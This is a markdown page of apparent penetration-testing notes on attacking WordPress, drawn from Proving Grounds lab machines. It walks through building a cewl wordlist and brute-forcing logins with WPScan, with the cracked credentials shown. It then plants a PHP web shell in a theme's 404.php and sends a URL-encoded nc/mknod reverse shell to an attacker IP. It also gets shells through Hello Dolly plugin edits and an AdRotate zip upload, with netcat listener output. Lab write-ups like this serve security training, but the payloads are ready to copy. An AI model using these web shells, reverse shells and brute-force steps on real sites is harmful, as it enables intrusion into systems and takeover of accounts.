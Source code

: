 ```yaml
---
layout: default
title: Wordpress
parent: Web Exploits
nav_order: 5
---
```


# Wordpress

---

## Brute Force via WPScan

Use Cewl to get a custom wordlist of the site

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-2]
└─$ cewl http://dc-2 -m 5 -w cewl.txt 2>/dev/null


```

WPScan password attack with the enumerated users and _cewl_ password list.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-2]
└─$ wpscan --url http://dc-2 --disable-tls-checks -U users.txt -P cewl.txt

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient

```

We have valid login credentials for _jerry_ and _tom_
jerry:adipiscing
tom:parurient
{: .warn }

We can SSH to port 7744 as _tom_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-2]
└─$ ssh tom@192.168.160.194 -p 7744
tom@192.168.160.194's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$
```

## Exploit TwentyFourteen Wordpress Theme

Place the following in the \*404.php\_ file.

```bash
<?php echo system($_REQUEST["cmd"]); ?>
```

![404](../../../../assets/images/ctfs/proving_grounds/btrsys/404.png)

Verify that the PHP web shell is executing commands.

![cmd](../../../../assets/images/ctfs/proving_grounds/btrsys/cmd.png)

Use _revshellgen_ to execute a reverse shell one-liner via the PHP web shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/btrsys]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/btrsys]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

```

Execute the URL encoded payload in the PHP web shell and receive a reverse shell in our netcat listener.

```bash
URL: http://192.168.242.50/wordpress/wp-content/themes/twentyfourteen/404.php?cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl
```

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/btrsys]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.242.50] 51742
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Exploit Hello Dolly Plugin

Attempting Hello Dolly plugin edit exploit.

![dolly1](../../../../assets/images/ctfs/proving_grounds/funbox/dolly1.png)

Add the PHP reverse shell script and edit.

![dolly2](../../../../assets/images/ctfs/proving_grounds/funbox/dolly2.png)

Activate the Hello Dolly plugin and get a reverse shell.

![dolly3](../../../../assets/images/ctfs/proving_grounds/funbox/dolly3.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.218.77] 49092
Linux funbox 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:14:29 up 28 min,  0 users,  load average: 0.00, 0.05, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Exploit AdRotate Plugin

The _AdRotate_ plugin allows file upload in zip format

![banner](../../../../assets/images/ctfs/proving_grounds/loly/banner.png)

Edit php-reverse-shell.php and zip as _rev.php_ within _zip.php_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ zip rev.zip  rev.php
  adding: rev.php (deflated 59%)

```

Upload rev.zip

![upload](../../../../assets/images/ctfs/proving_grounds/loly/upload.png)

Trigger by navigating to _/wordpress/wp-content/banners/rev.php_

![trigger](../../../../assets/images/ctfs/proving_grounds/loly/trigger.png)

Receive the reverse shell in our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.242.121] 60228
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 18:34:05 up  1:45,  0 users,  load average: 0.02, 0.05, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
